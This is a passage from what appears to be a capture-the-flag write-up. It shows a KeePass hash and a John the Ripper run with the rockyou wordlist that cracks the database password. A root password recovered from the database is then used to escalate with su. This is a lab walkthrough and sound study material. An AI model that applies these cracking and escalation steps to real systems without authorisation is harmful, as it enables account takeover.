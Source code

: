 ```
IMG_0553.JPG:$keepass$*2*60000*0*a9d7b3ab261d3d2bc18056e5052938006b72632366167bcb0b3b0ab7f272ab07*9a700a89b1eb5058134262b2481b571c8afccff1d63d80b409fa5b2568de4817*36079dc6106afe013411361e5022c4cb*f4e75e393490397f9a928a3b2d928771a09d9e6a750abd9ae4ab69f85f896858*78ad27a0ed11cddf7b3577714b2ee62cfa94e21677587f3204a2401fddce7a96*1*64*7c83badcfe0cd581613699bb4254d3ad06a1a517e2e81c7a7ff4493a5f881cf2
```
Now, let's give this file to john and start cracking (hashcat is giving issue):
```
[root@kali user-home ]$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 0.00% (ETA: 2022-03-09 20:13) 0g/s 23.88p/s 163.1c/s 163.1C/s superman..angels
bullshit         (IMG_0547.JPG)
```
now let's use this password and keyfile to open the keepass database.  
As we open the keepass database we can see the following password for user root:
```
root:u3v2249dl9ptv465cogl3cnpo3fyhk
```
Now we can escalate to root with:
```
user@safe:~$ su -
Password:
root@safe:~# 
```
